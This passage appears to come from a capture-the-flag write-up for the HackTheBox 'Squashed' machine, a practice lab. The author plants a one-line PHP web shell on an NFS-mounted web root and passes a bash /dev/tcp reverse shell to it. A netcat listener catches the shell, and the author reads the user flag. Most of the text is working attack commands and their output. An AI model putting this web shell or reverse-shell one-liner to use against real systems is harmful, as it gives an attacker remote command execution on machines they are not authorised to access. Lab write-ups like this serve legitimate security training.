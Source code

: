 ![sqs-3](https://user-images.githubusercontent.com/87711310/221344743-0e09f6af-ada3-4555-9509-b3f5f286fa2a.png)


So now, I overwrite the same file with a simple `PHP` web-shell.

```
fak3r@kali:/home/kali/Desktop/HackTheBox/Linux-Boxes/Squashed$ echo -e '<?php\n  system($_REQUEST['cmd']);\n?>'
<?php
  system($_REQUEST[cmd]);
?>
fak3r@kali:/home/kali/Desktop/HackTheBox/Linux-Boxes/Squashed$ echo -e '<?php\n  system($_REQUEST['cmd']);\n?>' > /mnt/test.php
```

Visiting the website, if I just load the page, there’s nothing there. But if I add `?cmd=id` to the end:

![sqs-4](https://user-images.githubusercontent.com/87711310/221344749-ffc0aa2b-f7d3-439b-8940-7dc4de33c296.png)



TO go from this webshell to a full reverse shell, I'll just pass in a bash reverse shell as `cmd`:

```
bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'
```
NOTE: In order for the reverse shell to work, you'll have to URL encode it.

Before that, I turned on my netcat listener on the same port that I passed in through the bash command.

```
nc -lvnp 4444
```

Once I hit send on the website, and checked on my netcat listener, I immediately got back a reverse shell

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.53] from (UNKNOWN) [10.10.11.191] 57842
bash: cannot set terminal process group (1078): Inappropriate ioctl for device
bash: no job control in this shell
alex@squashed:/var/www/html$ whoami
whoami
alex
```

Grabbing the user flag.

```
alex@squashed:/var/www/html$ ls
ls
css
images
index.html
js
alex@squashed:/var/www/html$ cd /home
cd /home
alex@squashed:/home$ ls
ls
alex
ross
alex@squashed:/home$ cd alex
cd alex
alex@squashed:/home/alex$ cat user.txt
cat user.txt
[REDACTED]
```